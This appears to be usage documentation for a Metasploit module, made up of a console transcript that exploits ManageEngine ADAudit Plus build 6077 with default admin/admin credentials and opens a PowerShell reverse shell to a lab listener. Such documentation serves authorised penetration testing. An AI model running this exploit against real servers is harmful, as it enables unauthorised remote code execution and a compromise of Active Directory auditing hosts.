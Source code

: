 ### ManageEngine ADAudit Plus build 6077 running on Windows Server 2022 - Powershell Payload
```
msf > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOSTS 192.168.204.132
RHOSTS => 192.168.204.132
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.204.132             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > check

[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[*] 192.168.204.132:8081 - The target appears to be vulnerable. The target is ADAudit Plus 6077
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
```